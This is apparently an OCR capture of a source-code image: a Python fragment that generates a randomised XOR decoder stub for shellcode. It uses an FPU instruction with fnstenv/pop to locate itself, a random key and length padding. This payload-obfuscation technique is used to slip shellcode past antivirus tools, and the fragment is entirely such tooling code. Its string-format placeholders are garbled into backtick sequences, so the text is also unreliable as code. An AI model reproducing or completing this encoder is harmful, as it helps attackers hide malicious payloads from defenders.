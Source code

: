```
    #fpus command

    code = append_code(
        code,
        asm = "fpus",
        bytes_code = random.choice( fpus ),
        compile=False
    )

    # print(code)

    # code += ["mov `{``}`,`{``}`".format( reg_1,stack_head)] 
    location_ss = random.randint(3,12) 
    # code += ["fnstenv [`{``}` - `{``}`]".format(reg_1,hex(location_ss * 4))]
    code = append_code(
            code,
            asm = "fnstenv [`{``}` - `{``}`]".format(reg_1,hex(location_ss * 4))
        )

    code = append_code(
        code,
        asm="sub `{``}`,`{``}`".format( stack_head,hex( (location_ss - 3)*4 ) )
    )

    code = append_code(
        code,
        asm = "pop `{``}`".format(reg_1)
    )
    # print(code)

    # code += ["sub esp,`{``}`".format( hex( (location_ss - 3)*4 ) ) ]
    # code += ["pop `{``}`".format(reg_1)]

    key_table = [ i for i in range(0x80,0xFF) ]
    key = bytes([ random.choice( key_table ) for i in range(4)  ])
    print("[*] the decode key is: `{``}`.".format(key))
    key_int = struct.unpack("&lt;I",key)[0]

    reg_2 = random.choice( reg_caches )
    while reg_2 in reg_caches:
        reg_2 = random.choice(regs)
    if reg_2.startswith("r"):
        reg_2 = reg_2.replace("r","e")

    # print( "mov `{``}`,`{``}`".format(reg_2,key_int )  )
    code = append_code(
        code,
        asm="mov `{``}`,`{``}`".format(reg_2,key_int )
    )

    # code += ["mov `{``}`,`{``}`".format(reg_2,key_int )]
    code = append_code(
        code,
        asm="xor ecx,ecx"
    )
    # code += [ "xor ecx,ecx" ] # loop count

    code_length = len(shellcode) # 修正这个长度
    print("[*] len of shellcode : `{``}`.".format(code_length))
    code_length += 4 + (4 - (code_length &amp; 3)) &amp; 3
    print("[*] encode length is: `{``}`.".format(code_length))
    code_length //= 4

```